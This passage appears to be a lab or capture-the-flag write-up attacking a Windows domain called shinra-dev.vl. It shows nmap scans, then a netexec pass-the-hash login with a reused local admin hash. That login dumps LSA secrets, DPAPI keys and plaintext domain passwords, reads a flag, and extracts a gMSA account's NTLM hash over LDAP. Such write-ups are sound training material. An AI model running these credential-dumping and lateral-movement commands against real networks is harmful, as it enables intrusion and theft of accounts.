

The initial UDP scan shows the following:

```bash
└─$ nmap -F -sU 172.16.11.13
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-20 14:45 +0100
Nmap scan report for 172.16.11.13
Host is up (0.0085s latency).
Not shown: 99 open|filtered udp ports (no-response)
PORT    STATE SERVICE
137/udp open  netbios-ns

Nmap done: 1 IP address (1 host up) scanned in 2.45 seconds

```

Where instead the TCP scan shows much more informations:

```bash
PORT      STATE SERVICE       REASON         VERSION
22/tcp    open  ssh           syn-ack ttl 64 OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   256 63:db:41:3e:88:0b:53:20:1c:c0:a2:9f:7b:52:04:59 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP1C9zeaMPUx96qVREDVrGMIY7GD1U0ai0zbpzikLTHH
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SHINRA-DEV
|   NetBIOS_Domain_Name: SHINRA-DEV
|   NetBIOS_Computer_Name: CLIENT04
|   DNS_Domain_Name: shinra-dev.vl
|   DNS_Computer_Name: client04.shinra-dev.vl
|   DNS_Tree_Name: shinra-dev.vl
|   Product_Version: 10.0.19041
|_  System_Time: 2026-03-20T13:54:56+00:00
| ssl-cert: Subject: commonName=client04.shinra-dev.vl
| Issuer: commonName=client04.shinra-dev.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-11-05T07:10:30
| Not valid after:  2026-05-07T07:10:30
| MD5:     bd2c 6f41 fc29 6bc4 2e97 3721 f56e 5382
| SHA-1:   caa0 b3f5 4356 397e 37af 9cb5 76e5 afcf 434a 03d0
| SHA-256: 29c2 e9ca d1aa 09b3 29dc b7ad cb4f 3ee1 4e74 0f16 c5b6 8cdd d06d fd9f 9c83 ce79
| -----BEGIN CERTIFICATE-----
| MIIC8DCCAdigAwIBAgIQWOAXIX45nrdERH7YmldUWTANBgkqhkiG9w0BAQsFADAh
| MR8wHQYDVQQDExZjbGllbnQwNC5zaGlucmEtZGV2LnZsMB4XDTI1MTEwNTA3MTAz
| MFoXDTI2MDUwNzA3MTAzMFowITEfMB0GA1UEAxMWY2xpZW50MDQuc2hpbnJhLWRl
| di52bDCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAKwyTnLaESGVpmzG
| ty/D0PbNx0CkYC57VySrr6zAeHY1Arwx4EK2QK2oL4z/nVotZKK3w9WXjw5XSrwd
| y9N2xNA/7MUk+kVv/AT8q0Lf7FdCHRE+NCXvnateADGgE18kCNd/+vHCQ3EtYlZS
| wh43G1mOOfop3OQzbvQu7z1xjIWeh00PYgXEJfzLCYQ/VnQurxe2sopOb5MfHPfz
| ArdEz5ywvG758k8UvpfiGiWqCl3HEWaNCBzCwuOa7pld9qfO2/U4iwuF9lMXtBDy
| K3SdV4NX/p/UDwNii6vCYTCUD9ibF5vNlWDTCg3eZTMUHqdFYxryoRerfxu29Q5u
| 5QjY7okCAwEAAaMkMCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQw
| MA0GCSqGSIb3DQEBCwUAA4IBAQCHmnTE1K3kFxi6/mHuAqYsowY7/zop7p12Abk5
| /+p95twQl0zfoc97H32koq6UA8bMy0Nm6OP4Omw14Coi1BfRmWLDyQ8vr4OME4Zp
| IPiFA5emwNI34HNyCCtzO5Bhxri9Gekh3T29TOZ3kpytKM8AATLYGB32i+reUYT6
| Kv2ZF9b+rClS46j8VSKGLoWkmVcJHsN/tHrdmuHyqZ07PwgY3rCChs+rqagzc11j
| 4Q2u3KMBktjlIwuhm40UCrRT47fqwFQOkrM3me09N2eh4+q+rPtYreM2M6q+4Xu+
| 35UAygKQOOCizvpZOWCIXu7T7U5EwSr2Z5RhrM8SnNGPDc8e
|_-----END CERTIFICATE-----
|_ssl-date: 2026-03-20T13:55:15+00:00; +2s from scanner time.
5040/tcp  open  unknown       syn-ack ttl 64
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49943/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.12.X (85%)
OS CPE: cpe:/o:ibm:zos:1.12
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: IBM z/OS 1.12 (85%)
No exact OS matches for host (test conditions non-ideal).

```

# SMB

Here I was curious and apparently this machine shares the same local admin password of the CLIENT03 which means I can do what i want and dump the secrets:

```bash
┌──(evil-winrm-py-7nl7ZEqc)─(user㉿kali-almi)-[~/Downloads/Shinra]
└─$ netexec smb 172.16.11.13 -u Administrator -H 10c1cf2e806f1b9e136ed8ad835f2842 --local-auth --lsa --dpapi
SMB         172.16.11.13    445    CLIENT04         [*] Windows 10 / Server 2019 Build 19041 x64 (name:CLIENT04) (domain:CLIENT04) (signing:False) (SMBv1:None)
SMB         172.16.11.13    445    CLIENT04         [+] CLIENT04\Administrator:10c1cf2e806f1b9e136ed8ad835f2842 (Pwn3d!)
SMB         172.16.11.13    445    CLIENT04         [+] Dumping LSA secrets
SMB         172.16.11.13    445    CLIENT04         SHINRA-DEV.VL/Paula.Parry:$DCC2$10240#Paula.Parry#903dd685f567d4a7baf6e22a682485e8: (2026-03-25 03:46:29)
SMB         172.16.11.13    445    CLIENT04         SHINRA-DEV.VL/Sally.O'Connor:$DCC2$10240#Sally.O'Connor#422bdba6839df8e6ae498b2c860acc5a: (2026-03-25 13:50:38)
SMB         172.16.11.13    445    CLIENT04         SHINRA-DEV.VL/Administrator:$DCC2$10240#Administrator#354886cd3559a0d6bcbb2164d7a07cb4: (2025-06-09 07:44:47)
SMB         172.16.11.13    445    CLIENT04         SHINRA-DEV\CLIENT04$:aes256-cts-hmac-sha1-96:64b39190c0421fd7ef19132512a44b52f860493ac4b5def48d9e0c5456313ef0
SMB         172.16.11.13    445    CLIENT04         SHINRA-DEV\CLIENT04$:aes128-cts-hmac-sha1-96:d9497b59b66af0bc249295dc58bfe766
SMB         172.16.11.13    445    CLIENT04         SHINRA-DEV\CLIENT04$:des-cbc-md5:16da431ad3fd7540
SMB         172.16.11.13    445    CLIENT04         SHINRA-DEV\CLIENT04$:plain_password_hex:0b3777b494ecdc8b7704d35c6b10d51f033f83058d12ecc3c9f30ac2b67ab6c2b772eacbaf450e0455622872188ca68c4aa1c3db16a54f55fb16fa0fbf860bfea004f3a03c8f4c7e8387da8e5dead4f23eea41bc741ef105d37253069721997bbee733222614b91677373f829cc6a0fccb5dd77e98807fecfe8d644ab7b2f6c41bb90a0c8fc52f61658aa59584ed34dfe0e7e627ba05d2d89bc671eb38e7e303552bdef3794e596deafea3d56a8dd753014f00a9481b63f731c0bd08d572f16330c5d45e9ba9bb0d63f87f68760b84266be453a8950d0904ebd3b456c13dc18a6688f36e64cb509289a1e02ba8ef3383
SMB         172.16.11.13    445    CLIENT04         SHINRA-DEV\CLIENT04$:aad3b435b51404eeaad3b435b51404ee:060b849f9a84140ad88264cb0f1a34a3:::
SMB         172.16.11.13    445    CLIENT04         shinra-dev.vl\paula.parry:j_1uzem+WGdaXN
SMB         172.16.11.13    445    CLIENT04         dpapi_machinekey:0x0102eb529a6d1b52d24681f5f5a53179ae00f163
dpapi_userkey:0x2e498f0d227ad8935bc2ad3b33a34e86daca65c4
SMB         172.16.11.13    445    CLIENT04         [+] Dumped 10 LSA secrets to /home/user/.nxc/logs/lsa/172.16.11.13_None_2026-03-25_150552.secrets and /home/user/.nxc/logs/lsa/172.16.11.13_None_2026-03-25_150552.cached
SMB         172.16.11.13    445    CLIENT04         [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.11.13    445    CLIENT04         [+] Got 10 decrypted masterkeys. Looting secrets...
SMB         172.16.11.13    445    CLIENT04         [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{8D509C6D-7690-4439-B160-2E32FEF8B2CB} - SHINRA-DEV\Sally.O'Connor:t_No3zCgiTpBN_

```

Now the credentials of Paula did not help to gain more access but Sally's sure it does:



But before I will look more into what I can get like the flag:

```bash
 Directory of C:\Users\Administrator

12/21/2022  02:59 AM    <DIR>          .
12/21/2022  02:59 AM    <DIR>          ..
12/21/2022  02:57 AM    <DIR>          3D Objects
12/21/2022  02:57 AM    <DIR>          Contacts
06/02/2025  08:57 AM    <DIR>          Desktop
01/03/2023  07:29 AM    <DIR>          Documents
12/26/2022  05:05 PM    <DIR>          Downloads
12/21/2022  02:57 AM    <DIR>          Favorites
12/21/2022  02:57 AM    <DIR>          Links
12/21/2022  02:57 AM    <DIR>          Music
12/21/2022  02:59 AM    <DIR>          OneDrive
12/22/2022  01:17 AM    <DIR>          Pictures
12/21/2022  02:57 AM    <DIR>          Saved Games
12/21/2022  02:58 AM    <DIR>          Searches
12/21/2022  03:06 AM    <DIR>          Videos
               0 File(s)              0 bytes
              15 Dir(s)   8,613,588,992 bytes free

C:\Users\Administrator> cd Desktop

C:\Users\Administrator\Desktop> type flag.txt
SHINRA{cead40bf09239faf2dafcf5241e16638}
C:\Users\Administrator\Desktop> 


```

And I was able to obtain the creds from the GMSA account:

```bash
└─$ netexec ldap dc.shinra-dev.vl -u "Sally.O'Connor" -p "t_No3zCgiTpBN_" --gmsa
LDAP        172.16.11.101   389    DC               [*] Windows 10 / Server 2016 Build 14393 (name:DC) (domain:shinra-dev.vl) (signing:None) (channel binding:Never)
LDAP        172.16.11.101   389    DC               [+] shinra-dev.vl\Sally.O'Connor:t_No3zCgiTpBN_ 
LDAP        172.16.11.101   389    DC               [*] Getting GMSA Passwords
LDAP        172.16.11.101   389    DC               Account: mFileSvc$            NTLM: 3f1df227d55c8d40c3997bc7e72eb491     PrincipalsAllowedToReadPassword: ServiceAccountManagers

```